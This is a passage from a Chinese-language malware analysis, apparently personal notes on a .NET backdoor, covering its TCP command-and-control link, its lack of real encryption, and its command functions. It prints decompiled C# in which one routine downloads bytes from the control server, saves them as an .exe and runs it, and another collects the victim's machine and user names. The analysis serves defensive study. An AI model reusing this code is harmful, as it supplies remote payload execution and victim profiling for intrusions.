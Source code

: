 ```
```
其實最主要C2 server和victim的連線主要是TCP，不過因為C2 server貌似沒有在運作了，所以沒辦法連線，我只能大概用連線失敗的封包以及後門的code判斷，至由有沒有其他的連線方式就不是很確定
![image](https://hackmd.io/_uploads/HJlaEEQTa.png)


### 加解密演算法
就我本身的理解，看不太出來哪邊有特別做到加解密的事情，每一個步驟幾乎都只是一般的unscramble或是decompress可以解釋的地方

### 後門功能
1. Screenshot→
                `dlrarhsiva/dlrarhsiva.cxc/dlrarhsiva/SLCLRNS/dlrarhsivascreen`
    ![image](https://hackmd.io/_uploads/HyBqS-XTp.png)
2. Remove User→`dlrarhsiva/dlrarhsiva.cxc/dlrarhsiva/OLRDMR/dlrarhsivaremove_user`
    這一段我認為是想辦法把一些資料pull下來後，並且直接執行remove user的動作，所以實際跟進去==dlrarhsivapull_data==這個method，會發現的確如我所預測，只不過實作的方法是他先從server那一端看有多少的bytes需要pull，然後把該值轉成int後就直接pull資料
    :::spoiler dlrarhsivapull_data() Source Code
    ```csharp!
    // dlrarhsiva.OLRDMR
    // Token: 0x06000036 RID: 54 RVA: 0x0000480C File Offset: 0x00002A0C
    public void dlrarhsivaremove_user()
    {
        try
        {
            byte[] array = this.server.dlrarhsivapull_data();
            if (array != null)
            {
                if (!File.Exists(DLAONIF.dlrarhsivaget_mpath() + DLAONIF.dlrarhsivaremvUser + ".exe"))
                {
                    File.WriteAllBytes(DLAONIF.dlrarhsivaget_mpath() + DLAONIF.dlrarhsivaremvUser + ".exe", array);
                    this.dlrarhsivado_process(DLAONIF.dlrarhsivaget_mpath() + DLAONIF.dlrarhsivaremvUser + ".exe");
                }
            }
        }
        catch
        {
        }
    }
    ```
    :::
3. Fetch Victim's Info→`dlrarhsiva/dlrarhsiva.cxc/dlrarhsiva/MLRLEINF/dlrarhsivaInfo`
    從以下source code可以知道使用Info這個command可以得知victim的Username或是MachineName
    :::spoiler dlrarhsivaInfo() Source Code
    ```csharp
    // dlrarhsiva.MLRLEINF
    // Token: 0x06000031 RID: 49 RVA: 0x0000472C File Offset: 0x0000292C
    private void dlrarhsivaInfo()
    {
        this.dlrarhsivaapver = "M.0.0.5|dlrarhsiva".Split(new char[]
        {
            '|'
        })[0];
        this.dlrarhsivacname = Environment.MachineName;
        this.dlrarhsivauname = Environment.UserName;
        this.dlrarhsivauip = "";
        this.dlrarhsivalancard = "";
    }
    ```
    :::
4. Others
    由於攻擊者可以使用的command實在是太多了，所以就直接列出來看比較清楚